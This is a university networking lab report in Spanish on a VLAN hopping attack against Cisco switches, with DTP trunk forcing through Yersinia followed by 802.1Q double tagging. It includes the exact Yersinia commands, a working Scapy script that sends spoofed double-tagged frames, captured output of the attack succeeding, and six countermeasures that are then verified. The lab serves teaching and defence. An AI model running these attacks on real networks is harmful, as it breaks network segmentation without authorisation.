




# Resumen Ejecutivo

Esta práctica documenta la implementación y demostración del ataque VLAN Hopping mediante la técnica de Double Tagging (Doble Etiquetado), una vulnerabilidad crítica en redes conmutadas que permite a un atacante enviar tráfico hacia VLANs a las que no tiene acceso legítimo. El ataque se realizó en dos fases: primero se ejecutó un ataque de Enable Trunking utilizando Yersinia para forzar la negociación DTP, y posteriormente se envió el ataque de doble encapsulación 802.1Q.

**Resultados:** Se logró demostrar el ataque de doble etiquetado en una topología con 2 switches Cisco, donde el atacante en VLAN 1 (nativa) pudo enviar tramas hacia la VLAN 2 (Datos) donde se encontraba la víctima. Se verificó el funcionamiento del ataque y posteriormente se implementaron las contramedidas de seguridad que mitigan completamente esta vulnerabilidad.

# Identificación del Problema

El ataque VLAN Hopping mediante Double Tagging explota características específicas del protocolo IEEE 802.1Q:

- **Vulnerabilidad del etiquetado nativo:** Las tramas en la VLAN nativa no llevan etiqueta 802.1Q en enlaces trunk
- **Procesamiento de etiquetas anidadas:** Los switches solo remueven la primera etiqueta, dejando la segunda intacta
- **Negociación DTP vulnerable:** Los puertos en modo dinámico pueden ser forzados a convertirse en trunk

::: warning
**Amenaza de seguridad:** Un atacante conectado a la VLAN nativa puede encapsular tramas con doble etiqueta 802.1Q para alcanzar VLANs restringidas, violando la segmentación de red establecida.
:::

**Prerrequisitos del ataque:**

1. El atacante debe estar conectado a la VLAN nativa del trunk
2. Debe existir al menos un switch intermedio en el camino hacia la víctima
3. El atacante debe poder generar tramas con etiquetas 802.1Q personalizadas
4. Los puertos deben permitir negociación DTP (para el ataque Enable Trunking)

# Metodología Aplicada

**Equipos utilizados:**

- 2 Switches Cisco Catalyst 2960 con IOS 15.x
- 4 PCs (2 por cada switch):
  - PC Atacante en VLAN 1 (SW1)
  - PC de prueba en VLAN 2 (SW1)
  - PC Víctima en VLAN 2 (SW2)
  - PC de prueba en VLAN 1 (SW2)
- Herramientas: Yersinia, Scapy

**Proceso:**

1. **Diseño de topología:** Configuración de red con 2 switches y 4 PCs
2. **Configuración de VLANs:** VLAN 1 (nativa/atacante) y VLAN 2 (Datos/víctima)
3. **Fase 1 - Enable Trunking:** Ataque DTP con Yersinia para habilitar trunk
4. **Fase 2 - Double Tagging:** Generación de tramas con doble etiquetado
5. **Implementación de contramedidas:** Aplicación de mejores prácticas de seguridad
6. **Validación de mitigación:** Verificación de que el ataque ya no es efectivo

# Topología de Red Implementada



**Descripción de la topología:**

- **SW1 (Switch 1):** Switch de acceso donde se conecta el atacante
- **SW2 (Switch 2):** Switch de acceso donde se conecta la víctima
- **Enlace Trunk:** Conexión entre SW1 y SW2 usando VLAN 1 como nativa
- **PC1 (Atacante):** Conectado a SW1, VLAN 1 (nativa) - 192.168.1.100
- **PC2 (Test):** Conectado a SW1, VLAN 2 (Datos) - 192.168.2.10
- **PC3 (Test):** Conectado a SW2, VLAN 1 (nativa) - 192.168.1.50
- **PC4 (Víctima):** Conectado a SW2, VLAN 2 (Datos) - 192.168.2.20

**Configuración de direccionamiento:**

| Dispositivo | Puerto | VLAN | Dirección IP | Rol |
|-------------|--------|------|--------------|-----|
| SW1 | Gi0/1 | Trunk | - | Enlace a SW2 |
| SW1 | Fa0/1 | 1 | - | Puerto atacante |
| SW1 | Fa0/2 | 2 | - | Puerto prueba |
| SW2 | Gi0/1 | Trunk | - | Enlace a SW1 |
| SW2 | Fa0/1 | 1 | - | Puerto prueba |
| SW2 | Fa0/2 | 2 | - | Puerto víctima |
| PC1 (Atacante) | eth0 | 1 | 192.168.1.100/24 | Origen del ataque |
| PC2 (Test) | eth0 | 2 | 192.168.2.10/24 | Verificación |
| PC3 (Test) | eth0 | 1 | 192.168.1.50/24 | Verificación |
| PC4 (Víctima) | eth0 | 2 | 192.168.2.20/24 | Objetivo del ataque |

**Configuración de VLANs:**

| VLAN ID | Nombre | Propósito |
|---------|--------|-----------|
| 1 | Default | VLAN nativa - Atacante |
| 2 | Datos | Tráfico de datos - Víctima |

# Configuración Inicial

## Configuración de VLANs en Ambos Switches

::: cisco-ios
Switch> enable
Switch# configure terminal
Switch(config)# hostname SW1
SW1(config)# vlan 2
SW1(config-vlan)# name Datos
SW1(config-vlan)# exit
:::

## Configuración del Enlace Trunk (Configuración Vulnerable)

::: cisco-ios
SW1(config)# interface GigabitEthernet0/1
SW1(config-if)# description Trunk a SW2 - VULNERABLE
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode dynamic desirable
SW1(config-if)# exit
:::

::: warning
**Configuración insegura:** El modo `dynamic desirable` permite negociación DTP, lo cual es explotable con Yersinia. Además, VLAN 1 es la nativa por defecto.
:::

## Configuración de Puertos de Acceso

En SW1:

::: cisco-ios
SW1(config)# interface FastEthernet0/1
SW1(config-if)# description Puerto Atacante - VLAN 1
SW1(config-if)# switchport mode access
SW1(config-if)# switchport access vlan 1
SW1(config-if)# exit

SW1(config)# interface FastEthernet0/2
SW1(config-if)# description Puerto Test - VLAN 2
SW1(config-if)# switchport mode access
SW1(config-if)# switchport access vlan 2
SW1(config-if)# exit
:::

En SW2:

::: cisco-ios
SW2(config)# interface FastEthernet0/1
SW2(config-if)# description Puerto Test - VLAN 1
SW2(config-if)# switchport mode access
SW2(config-if)# switchport access vlan 1
SW2(config-if)# exit

SW2(config)# interface FastEthernet0/2
SW2(config-if)# description Puerto Victima - VLAN 2 Datos
SW2(config-if)# switchport mode access
SW2(config-if)# switchport access vlan 2
SW2(config-if)# exit
:::

# Desarrollo Detallado

## Fase 1: Ataque Enable Trunking con Yersinia

Antes de ejecutar el ataque de doble etiquetado, es necesario asegurar que el puerto del atacante se convierta en un puerto trunk. Esto se logra mediante un ataque DTP (Dynamic Trunking Protocol) usando Yersinia.

### Comprensión del Ataque DTP

DTP es un protocolo propietario de Cisco que permite la negociación automática de enlaces trunk. Si un puerto está configurado en modo dinámico, un atacante puede enviar tramas DTP para forzar la negociación.

### Ejecución del Ataque con Yersinia (Modo Gráfico)

```text
# Iniciar Yersinia en modo gráfico
$ sudo yersinia -G
```

**Pasos en la interfaz gráfica:**

1. Seleccionar la interfaz de red (eth0)
2. Ir al menú **Launch attack**
3. Seleccionar **DTP** (Dynamic Trunking Protocol)
4. Elegir **enabling trunking**
5. Ejecutar el ataque

### Ejecución del Ataque con Yersinia (Modo Consola)

```text
# Ataque DTP para habilitar trunking
$ sudo yersinia dtp -attack 1 -interface eth0
```

**Tipos de ataques DTP en Yersinia:**

| Ataque | Descripción |
|--------|-------------|
| 0 | Enviar paquete DTP raw |
| 1 | Enabling trunking (forzar trunk) |
| 2 | Enviar paquetes DTP continuamente |

### Verificación del Ataque DTP

Después de ejecutar el ataque, verificar que el puerto se convirtió en trunk:

::: cisco-ios
SW1# show interfaces trunk
Port        Mode         Encapsulation  Status        Native vlan
Fa0/1       auto         802.1q         trunking      1

Port        Vlans allowed on trunk
Fa0/1       1-4094
:::

::: success
**Ataque DTP exitoso:** El puerto del atacante ahora es un enlace trunk, permitiendo enviar tramas etiquetadas 802.1Q.
:::

## Fase 2: Ataque Double Tagging (Doble Encapsulación)

Una vez que el puerto del atacante es trunk, se procede con el ataque de doble etiquetado.

### Comprensión del Mecanismo de Ataque

El ataque Double Tagging funciona de la siguiente manera:

1. **El atacante crea una trama con dos etiquetas 802.1Q:**
   - Etiqueta externa: VLAN 1 (nativa)
   - Etiqueta interna: VLAN 2 (Datos - víctima)

2. **SW1 recibe la trama:**
   - Como la VLAN externa coincide con la nativa, SW1 remueve la primera etiqueta
   - La trama sale por el trunk hacia SW2 solo con la etiqueta de VLAN 2

3. **SW2 recibe la trama por el trunk:**
   - Ve la etiqueta de VLAN 2
   - Reenvía la trama al puerto de acceso de la víctima (PC4)

::: info
**Limitación importante:** Este ataque es unidireccional. El atacante puede enviar tráfico hacia la VLAN víctima, pero no puede recibir respuestas directas porque no pertenece a esa VLAN.
:::

### Ataque Double Tagging con Yersinia

```text
# Ejecutar ataque de doble encapsulacion
$ sudo yersinia dot1q -attack 1 -interface eth0
```

**Pasos en modo gráfico:**

1. Iniciar Yersinia: `sudo yersinia -G`
2. Seleccionar interfaz eth0
3. Ir a **Launch attack** -> **802.1Q**
4. Seleccionar **sending double encapsulated packet**
5. Configurar:
   - VLAN externa: 1 (nativa)
   - VLAN interna: 2 (Datos - objetivo)
   - IP destino: 192.168.2.20 (víctima)
6. Ejecutar el ataque



### Ataque Double Tagging con Scapy

Alternativamente, se puede usar Scapy para mayor control:

```python
#!/usr/bin/env python3
# double_tagging_attack.py
from scapy.all import Ether, Dot1Q, IP, ICMP, sendp

# Configuracion del ataque
INTERFACE = "eth0"
NATIVE_VLAN = 1      # VLAN nativa (etiqueta externa)
TARGET_VLAN = 2      # VLAN Datos (etiqueta interna)
VICTIM_IP = "192.168.2.20"
ATTACKER_IP = "192.168.2.100"  # IP falsa en rango de victima

# Construccion de la trama con doble etiquetado
eth = Ether(dst="ff:ff:ff:ff:ff:ff")
dot1q_outer = Dot1Q(vlan=NATIVE_VLAN)
dot1q_inner = Dot1Q(vlan=TARGET_VLAN)
ip = IP(src=ATTACKER_IP, dst=VICTIM_IP)
icmp = ICMP()

# Ensamblar el paquete
packet = eth/dot1q_outer/dot1q_inner/ip/icmp

# Mostrar estructura del paquete
print("[*] Paquete Double Tagging construido:")
packet.show()

# Enviar el paquete
print("[*] Enviando paquete hacia VLAN 2 (Datos)...")
sendp(packet, iface=INTERFACE, verbose=True)
print("[+] Ataque ejecutado.")
```

Ejecución:

```text
$ sudo python3 double_tagging_attack.py
[*] Paquete Double Tagging construido:
###[ Ethernet ]###
  dst       = ff:ff:ff:ff:ff:ff
  src       = 00:0c:29:xx:xx:xx
  type      = 0x8100
###[ 802.1Q ]###
     vlan      = 1
     type      = 0x8100
###[ 802.1Q ]###
     vlan      = 2
     type      = 0x800
###[ IP ]###
     src       = 192.168.2.100
     dst       = 192.168.2.20
###[ ICMP ]###
     type      = echo-request

[*] Enviando paquete hacia VLAN 2 (Datos)...
Sent 1 packets.
[+] Ataque ejecutado.
```

## Verificación del Ataque en la Víctima

En PC4 (víctima), capturar el tráfico para verificar la recepción:



```text
$ sudo tcpdump -i eth0 -nn icmp
tcpdump: listening on eth0, link-type EN10MB
14:32:15.234567 IP 192.168.2.100 > 192.168.2.20: ICMP echo request
```



::: success
**Ataque exitoso:** La víctima en VLAN 2 (Datos) recibió el paquete ICMP del atacante que originalmente estaba en VLAN 1, demostrando la violación del aislamiento de VLANs.
:::

## Análisis del Flujo de Tráfico

Verificación en SW1:

::: cisco-ios
SW1# show interfaces trunk
Port        Mode         Encapsulation  Status        Native vlan
Gi0/1       on           802.1q         trunking      1
Fa0/1       auto         802.1q         trunking      1

Port        Vlans allowed on trunk
Gi0/1       1-4094
Fa0/1       1-4094
:::

Verificación en SW2:

::: cisco-ios
SW2# show mac address-table vlan 2
          Mac Address Table
-------------------------------------------
Vlan    Mac Address       Type        Ports
----    -----------       --------    -----
   2    000c.29yy.yyyy    DYNAMIC     Fa0/2
:::

# Implementación de Contramedidas

## Contramedida 1: Deshabilitar DTP

La contramedida más crítica es deshabilitar la negociación DTP:

::: cisco-ios
SW1(config)# interface FastEthernet0/1
SW1(config-if)# switchport mode access
SW1(config-if)# switchport nonegotiate
SW1(config-if)# exit
:::

## Contramedida 2: Cambiar la VLAN Nativa

Utilizar una VLAN dedicada y no utilizada como nativa:

::: cisco-ios
SW1(config)# vlan 999
SW1(config-vlan)# name VLAN_NATIVA_SEGURA
SW1(config-vlan)# exit

SW1(config)# interface GigabitEthernet0/1
SW1(config-if)# switchport trunk native vlan 999
SW1(config-if)# exit
:::

## Contramedida 3: Etiquetar la VLAN Nativa

Forzar el etiquetado de todas las VLANs, incluyendo la nativa:

::: cisco-ios
SW1(config)# vlan dot1q tag native
:::

::: info
**Efecto:** Al etiquetar la VLAN nativa, el switch no removerá automáticamente la primera etiqueta de tramas entrantes, invalidando el mecanismo del ataque.
:::

## Contramedida 4: Configurar Puertos de Acceso Explícitamente

::: cisco-ios
SW1(config)# interface FastEthernet0/1
SW1(config-if)# switchport mode access
SW1(config-if)# switchport access vlan 10
SW1(config-if)# switchport nonegotiate
SW1(config-if)# exit
:::

## Contramedida 5: Restringir VLANs en el Trunk

::: cisco-ios
SW1(config)# interface GigabitEthernet0/1
SW1(config-if)# switchport trunk allowed vlan 2
SW1(config-if)# switchport trunk allowed vlan remove 1
SW1(config-if)# exit
:::

## Contramedida 6: Port Security

::: cisco-ios
SW1(config)# interface FastEthernet0/1
SW1(config-if)# switchport port-security
SW1(config-if)# switchport port-security maximum 1
SW1(config-if)# switchport port-security violation shutdown
SW1(config-if)# switchport port-security mac-address sticky
SW1(config-if)# exit
:::

# Validación y Pruebas

## Verificación de Contramedidas Aplicadas

::: cisco-ios
SW1# show vlan dot1q tag native
dot1q native vlan tagging is enabled

SW1# show interfaces trunk
Port        Mode         Encapsulation  Status        Native vlan
Gi0/1       on           802.1q         trunking      999

Port        Vlans allowed on trunk
Gi0/1       2

SW1# show interfaces FastEthernet0/1 switchport
Name: Fa0/1
Switchport: Enabled
Administrative Mode: static access
Operational Mode: static access
Administrative Trunking Encapsulation: negotiate
Negotiation of Trunking: Off
Access Mode VLAN: 10
:::

## Intento de Ataque Post-Mitigación

```text
# Intento de ataque DTP
$ sudo yersinia dtp -attack 1 -interface eth0
# El puerto no negocia trunk debido a "switchport nonegotiate"

# Intento de ataque Double Tagging
$ sudo python3 double_tagging_attack.py
[*] Enviando paquete hacia VLAN 2...
Sent 1 packets.
```

En la víctima:

```text
$ sudo tcpdump -i eth0 -nn icmp
listening on eth0, link-type EN10MB
^C
0 packets captured
```

::: success
**Mitigación exitosa:** Después de aplicar las contramedidas, ni el ataque DTP ni el doble etiquetado permiten alcanzar la VLAN víctima.
:::

# Problemas Encontrados y Soluciones

## Problema: Puerto No Negociaba Trunk con Yersinia

**Descripción:** Inicialmente, el ataque DTP no lograba convertir el puerto en trunk.

**Diagnóstico:** El puerto estaba configurado en modo `access` en lugar de `dynamic`.

**Solución aplicada:** Verificar que el puerto objetivo estuviera en modo dinámico para que Yersinia pudiera explotar DTP.

## Problema: VLAN Nativa Inconsistente Entre Switches

**Descripción:** Al cambiar la VLAN nativa en un solo switch, el enlace trunk presentaba problemas.

**Diagnóstico:** Los mensajes CDP indicaban "Native VLAN mismatch".

**Solución aplicada:** Configurar la misma VLAN nativa en ambos extremos del trunk:

::: cisco-ios
SW1(config-if)# switchport trunk native vlan 999
SW2(config-if)# switchport trunk native vlan 999
:::

## Problema: Yersinia No Detectaba la Interfaz

**Descripción:** Yersinia no mostraba la interfaz de red correcta.

**Diagnóstico:** La interfaz no estaba en modo promiscuo.

**Solución aplicada:**

```text
$ sudo ip link set eth0 promisc on
$ sudo yersinia -G
```

# Experiencia Adquirida

## Conocimientos Técnicos Clave

### Protocolo DTP
- Protocolo propietario de Cisco para negociación de trunks
- Vulnerable a ataques de suplantación
- Debe deshabilitarse con `switchport nonegotiate`

### Funcionamiento de 802.1Q
- Las tramas en la VLAN nativa no llevan etiqueta en enlaces trunk por defecto
- El campo TPID (0x8100) identifica una trama etiquetada
- Los switches procesan solo la primera etiqueta encontrada

### Vector de Ataque Combinado

| Fase | Ataque | Herramienta | Objetivo |
|------|--------|-------------|----------|
| 1 | Enable Trunking | Yersinia DTP | Convertir puerto en trunk |
| 2 | Double Tagging | Yersinia/Scapy | Saltar a VLAN víctima |

### Contramedidas Esenciales

| Contramedida | Efectividad | Impacto |
|--------------|-------------|---------|
| Deshabilitar DTP | Alta | Bajo |
| Cambiar VLAN nativa | Alta | Bajo |
| Etiquetar VLAN nativa | Alta | Bajo |
| Puertos access explícitos | Alta | Bajo |
| Port Security | Media | Bajo |

### Comandos Cisco IOS Críticos

::: cisco-ios
! Deshabilitar negociacion DTP
Switch(config-if)# switchport nonegotiate

! Configuracion de VLAN nativa segura
Switch(config)# vlan dot1q tag native
Switch(config-if)# switchport trunk native vlan 999

! Verificacion de estado
Switch# show interfaces trunk
Switch# show dtp interface
Switch# show vlan dot1q tag native
:::

## Lecciones Aprendidas

### Seguridad por Defecto
Las configuraciones por defecto de los switches no son seguras:

- DTP habilitado por defecto permite ataques de trunk
- VLAN 1 como nativa es explotable
- Puertos en modo dinámico son vulnerables

### Defensa en Profundidad
Implementar múltiples capas de protección:

- Deshabilitar DTP en todos los puertos
- Configurar VLAN nativa no utilizada
- Habilitar etiquetado de VLAN nativa
- Port Security en puertos de acceso

# Exploración de Aplicaciones y Sugerencias

<!-- Esta sección se completará posteriormente con aplicaciones prácticas y sugerencias de mejora -->

# Recursos y Referencias Utilizados

## Documentación Técnica Oficial

### Cisco Systems
- **Cisco Catalyst Switch Security Best Practices** - VLAN Security Guidelines
- **Understanding VLAN Hopping Attacks** - Cisco Security Advisory
- **LAN Security Configuration Guide** - Cisco IOS 15.x

### Estándares IEEE
- **IEEE 802.1Q-2018:** "Bridges and Bridged Networks" - Especificación de VLANs

## Herramientas Utilizadas

### Yersinia
- Framework para ataques de capa 2
- Soporte para DTP, 802.1Q, STP, CDP, etc.
- Documentación: https://github.com/tomac/yersinia

### Scapy
- Documentación oficial: https://scapy.readthedocs.io/
- Generación de paquetes 802.1Q personalizados

## Configuraciones de Referencia

Los archivos de configuración se encuentran en el directorio `configs/`:

- **SW1-vulnerable-v1.cfg:** Configuración inicial vulnerable
- **SW2-vulnerable-v1.cfg:** Configuración inicial vulnerable
- **SW1-secure-v1.cfg:** Configuración con contramedidas
- **SW2-secure-v1.cfg:** Configuración con contramedidas

---

**Documento:** Práctica 9.1 - VLAN Hopping Double Tagging  
**Fecha:** Enero 27, 2026  
**Autores:** Uriel Felipe Vázquez Orozco, Euler Molina Martínez  
**Materia:** Redes de Computadoras 2  
**Profesor:** M.C. Manuel Eduardo Sánchez Solchaga
